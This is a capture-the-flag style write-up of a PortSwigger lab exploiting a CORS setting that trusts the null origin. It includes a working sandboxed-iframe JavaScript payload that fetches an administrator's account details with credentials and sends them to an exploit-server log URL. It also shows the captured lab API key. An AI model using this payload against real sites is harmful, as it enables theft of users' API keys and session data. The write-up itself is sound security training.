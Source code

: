# CORS vulnerability with trusted null origin | Dec 27, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack), you'll learn: CORS vulnerability with trusted null origin! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227060104.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227060113.png)

**In the previous lab, we found that after logged in, it'll send a GET request to `/accountDetails`, which fetches account's data:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227060127.png)

And it supports CORS(Cross-Origin Resource Sharing).

**Let's send that request to Burp Repeter, and add a HTTP header called `Origin` with a random host:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227060333.png)

Hmm... The response header doesn't include our origin host.

Maybe it has a whitelist domains?

Now, some applications might whitelist the `null` origin to support local development of the application.

**Let's test `null` origin:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227060449.png)

It's reflected in the response header!

In this situation, we can use various tricks to generate a cross-origin request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access.

**For example, this can be done using a sandboxed `iframe` cross-origin request:**
```html
<html>
    <head>
        <title>CORS-2</title>
    </head>
    <body>
        <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','https://0a6e007004bec549c19b804a0097005f.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();
            function reqListener() {
                location='exploit-0a5f00000465c524c1317f9301160049.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
            };
            </script>">
        </iframe>
    </body>
</html>
```

**Then, host it on the exploit server, and test it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227062748.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227062759.png)

**Exploit server access log:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227062829.png)

**It worked! Let's deliver the exploit to the victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227062855.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227062918.png)

```json
{
    "username": "administrator",
    "email": "",
    "apikey": "bH4kjHMfSlrABceuqVweDZDJYo7H55do",
    "sessions": [
        "i3pE78c1OzvDZw7YK8AH2YEcD8x5zQCX"
    ]
}
```

**Let's submit the API key:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227063005.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Origin-Resource-Sharing/CORS-2/images/Pasted%20image%2020221227063010.png)

# What we've learned:

1. CORS vulnerability with trusted null origin
